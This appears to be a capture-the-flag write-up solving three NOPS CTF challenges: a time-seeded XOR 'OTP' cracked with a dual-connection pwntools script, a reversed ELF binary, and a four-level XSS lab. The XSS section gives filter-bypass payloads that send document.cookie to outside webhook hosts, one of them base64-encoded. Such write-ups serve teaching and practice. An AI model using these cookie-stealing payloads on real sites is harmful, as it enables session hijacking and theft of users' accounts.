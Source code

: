 ## 1. Broken OTP - Crypto

#### Description
i heard OTP it the most secure encryption algorithm ever
#### Given code
```python
import random
secret = 'XXXXXXXXXXXXXXXXXXXX'
PINK = 118
RED = 101
YELLOW = 97
GREEN = 108
BLACK = __builtins__
PURPLE = dir
e = getattr(BLACK, bytes([RED, PINK, YELLOW, GREEN]).decode())
g = e(''.__dir__()[4].strip('_')[:7])
b = g(BLACK, PURPLE(BLACK)[92])
i = g(BLACK, PURPLE(BLACK)[120])
t = ['74696d65', '72616e646f6d', '5f5f696d706f72745f5f', '726f756e64', '73656564']
d = lambda x: b.fromhex(x).decode()
fb = g(i, PURPLE(i)[-6])
_i = lambda x: e(d(t[2]))(x)
s = lambda: g(BLACK,d(t[3]))(g(_i(d(t[0])), d(t[0]))()) + fb(secret.encode())
r = g(_i(d(t[1])), d(t[4]))

def kg(l):
    return bytes([random.randint(0,255) for i in range(l)])
    
def c(p):
    k = kg(len(p))
    return bytes([k[i] ^ p[i] for i in range(len(p))]).hex()

if __name__ == '__main__':
    r(s())
    print("Welcome to our encryption service.")
    choice = input("Choose between:\n1. Encrypt your message.\n2. Get the encrypted secret.\nEnter your choice: ")
    match choice:
        case "1":
            message = input("Please enter the message you wish to encrypt: ")
            print(f"Your encrypted message is: {c(message.encode())}")
        case "2":
            print(f"The secret is: {c(secret.encode())}")
        case _:
            print("Invalid option!")
```

First I de-obfuscated the code with the help of ChatGPT
```python
import random
import time

# Placeholder for the actual secret
secret = "SuperSecret"

# Generate a seed value based on the current time and the secret
def generate_seed():
    return round(time.time()) + sum(secret.encode())

# Key generation function
def generate_key(length):
    return bytes([random.randint(0, 255) for _ in range(length)])

# Encryption function using XOR
def xor_encrypt(message):
    key = generate_key(len(message))
    return bytes([key[i] ^ message[i] for i in range(len(message))]).hex()

if __name__ == '__main__':
    # Set the random seed using the computed value
    random.seed(generate_seed())
    
    print("Welcome to our encryption service.")
    choice = input("Choose between:\n1. Encrypt your message.\n2. Get the encrypted secret.\nEnter your choice: ")
    
    if choice == "1":
        message = input("Please enter the message you wish to encrypt: ")
        print(f"Your encrypted message is: {xor_encrypt(message.encode())}")
    elif choice == "2":
        print(f"The secret is: {xor_encrypt(secret.encode())}")
    else:
        print("Invalid option!")
```

As we can see this is an XOR encryption service.
Now I implemented a timing attack. The seed changes every second. So I created two instances of the challenge, at the same time. So both the instances will have the same seed and hence will generate the same key say 'k'. In one instance I will use option 1 to encrypt a custom message say 'm' to get a ciphertext 'c'. In the second instance I will use option 2 to encrypt the secret 's' to get encrypted secret say 'cs'. Now the attack is described below.
```
Unknowns : k,s
Knowns : m,c,cs

c = k ^ m So we find k as k = m ^ c
s ^ k = cs So we find s as s = cs ^ k
```
I used below python script to initiate the timing attack and provide the ciphertexts in both option 1 and 2
```python
import pwn
import threading

def connect_one():
    hostAddress = 'nopsctf-broken-otp.chals.io'
    conn = pwn.connect(hostAddress, 443, ssl=True, sni=hostAddress)
    conn.recvuntil(b':')
    conn.recvuntil(b':')
    conn.sendline('1'.encode())
    conn.recvuntil(b':')
    conn.sendline(('a'*20).encode())
    print(conn.recvline())

def connect_two():
    hostAddress = 'nopsctf-broken-otp.chals.io'
    conn = pwn.connect(hostAddress, 443, ssl=True, sni=hostAddress)
    conn.recvuntil(b':')
    conn.recvuntil(b':')
    conn.sendline('2'.encode())
    print(conn.recvline())

thread1 = threading.Thread(target=connect_one)
thread2 = threading.Thread(target=connect_two)

thread1.start()
thread2.start()

thread1.join()
thread2.join()

print("Both connections handled successfully.")
```
Then I used the method described above to derive the flag 's'.
**Flag : 2. N0PS{0tP_k3Y_r3u53}**

## 2. Reverse Me - Rev

#### Description
Don't complain if you can't see me, because I have to be reversed to make me run 🙃

#### Solution
The Description says : I have to be reversed to make me run. Opening the file in a hex editor, there was no file signature. Since description says about reversing, I scrolled down to the bottom. There I found that the last 3 letters were "FLE". Reverse it : "ELF" -> "ELF Executable"! When reversed, ELF would form the file signature. I used the below script to reverse the hex values in the file.
```python
file = open(<filename>,"r")
content = file.read()
content = content.split()
file.close()
content = content.reverse()
file = open("out.jpg","w")
file.write(content)
```
Now I used DogBolt to decompile the executable. The executable took 4 parameters and checked if 4 conditions match. After a bit of math, the 4 conditions were
```
1) (arg1 * -10) + (arg2 * 4) + arg3 + (arg4 * 3) = 28 
2) (arg1 * (-8)) + (arg2 * 9) + (arg3 * 6) + (arg4 * -2) = 72 
3) (arg1 * -2) + (arg2 * -3) + (arg3 * -8) + arg4 = 29 
4) (arg1 * 5) + (arg2 * 7) + arg3 + (arg4 * -6) = 88 (edited)
```
Solving these 4 equations, we get the numbers -3, 8, -7, -9
./reversemeout -3 8 -7 -9

**Flag : N0PS{r1CKUNr0111N6}**

## 3. XSS Lab - Web

#### Level 1
No Filters
Cookie 1 : bf2a73106a3aa48bab9b8b47e4bd350e
Level 1 : `<script>document.write('<img src="https://webhook.site/ba0e4f1a-6369-4cfd-93e2-ab13573aed13?c='+document.cookie+'" />');</script>`

#### Level 2
Filter:
```
def filter_2(payload):
    return payload.lower().replace("script", "").replace("img", "").replace("svg", "")
```
Cookie 2 :3e79c8a64bd10f5fa897b7832384f043
Level 2 : `<scscriptript>document.write('<imimgg src="https://webhook.site/ba0e4f1a-6369-4cfd-93e2-ab13573aed13?c='+document.cookie+'" />');</scrscriptipt>`

#### Level 3
Filter:
```
def filter_3(payload):
    if "://" in payload.lower():
return "Nope"
    if "document" in payload.lower():
return "Nope"
    if "cookie" in payload.lower():
return "Nope"
    return payload.lower().replace("script", "").replace("img", "").replace("svg", "")
```
Cookie 3 : f40e749b80cff27f8e726b2a95740dd6
Level 3 : `<scscriptript>docuscriptment.write('<imimgg src="https:/script/webhook.site/ba0e4f1a-6369-4cfd-93e2-ab13573aed13?c='+docuscriptment.cooscriptkie+'" />');</scrscriptipt>`

#### Level 4
Filter:
```
def filter_4(payload):
    if any(c in payload for c in '+"/'):
return "Nope"
    if "://" in payload.lower():
return "Nope"
    if "document" in payload.lower():
return "Nope"
    if "cookie" in payload.lower():
return "Nope"
    return payload.replace("script", "").replace("img", "").replace("svg", "")

```
Cookie 4 : N0PS{cR05s_S1t3_Pr0_5cR1pT1nG}
Level 4 : `<imimgg src=x onerror=this.src=atob('aHR0cHM6Ly9lbnNzNzltbHBscXdzLngucGlwZWRyZWFtLm5ldD9jPQ==').concat(docuscriptment.cooscriptkie)>`
